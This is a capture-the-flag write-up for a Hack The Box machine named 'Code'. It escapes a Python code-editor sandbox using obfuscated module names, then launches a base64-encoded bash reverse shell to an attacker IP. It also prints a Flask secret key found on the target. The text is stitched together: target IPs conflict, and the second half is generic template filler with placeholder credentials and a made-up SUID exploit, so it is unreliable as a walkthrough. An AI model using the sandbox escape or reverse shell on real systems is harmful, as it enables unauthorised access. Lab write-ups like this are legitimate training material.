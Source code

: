 ```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb

img: https://labs.hackthebox.com/storage/avatars/e6633d6c2b1d824c3756eb21aeed7590.png
---
```



## Enumeration
### Nmap Scan
#### Normal Scan
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
##### Results
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

#### Remove the open filter
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```
##### Results
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```
#### Get version and service information
```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```
##### Results
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

### Web 
When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

we paste the following Python code to do ls:
```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/ho'+'me')) 
#print(oas.listdir('/ro'+'ot'))
```
##### Results
```
['app.py', 'static', 'templates', '__pycache__', 'instance'] ['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt'] ['martin', 'app-production'] 
```
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to /home/martin

We can do ls on the `app-production` directory:
```python
oas = sys.modules['o'+'s']
print(oas.listdir('/ho'+'me/app-production')) ```
```
##### Results
```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app'] 
```
We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:
```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```
##### Results
```
user flag value
```

## Machine Access
We can access the machine using a reverse shell. We can use the following Python code to get a reverse shell:
```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```
This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell:
```bash
nc -lvnp 4444
```

Once we have a reverse shell, we can get a persistent shell by using the following commands:
```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
We can access the web page source code at app.py and we find credentials for database:
```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```
## Database Access
We can access the SQLite database using the `sqlite3` command-line tool. First, we need to locate the database file, which is `database.db` in the `app-production` directory.
```bash
# no exite esta ruta en la maquina
sqlite3 /home/app-production/database.db
```


## Root Exploitation
To escalate privileges to root, we can check for any misconfigurations or vulnerable services. In
this case, we will look for a SUID binary that can be exploited.
```bash
find / -perm -4000 -type f 2>/dev/null
```






## Exploitation
### SSH Access
The SSH service is running on port 22. We can try to brute-force the SSH login using a tool like `hydra` or `medusa`. However, for this walkthrough, we will assume we have the credentials.
```bash
ssh user@10.0.1.3
```
### Credentials
- Username: `user`
- Password: `password`
### User Flag
Once logged in, we can find the user flag in the home directory:
```bash
cat /home/user/user.txt
```
## Root Privilege Escalation
To escalate privileges to root, we can check for any misconfigurations or vulnerable services. In this case, we will look for a SUID binary that can be exploited.
```bash
find / -perm -4000 -type f 2>/dev/null
```
### Results
```
/usr/bin/suid_binary
```
### Exploiting the SUID Binary
We can exploit the SUID binary to gain root access. Assuming the binary is vulnerable, we can run it with root privileges:
```bash
/usr/bin/suid_binary
```
### Root Flag
After successfully exploiting the SUID binary, we can find the root flag:
```bash
cat /root/root.txt
```
## Conclusion
Congratulations! You have successfully completed the walkthrough for the example machine. You have learned how to enumerate services, exploit vulnerabilities, and retrieve both user and root flags.



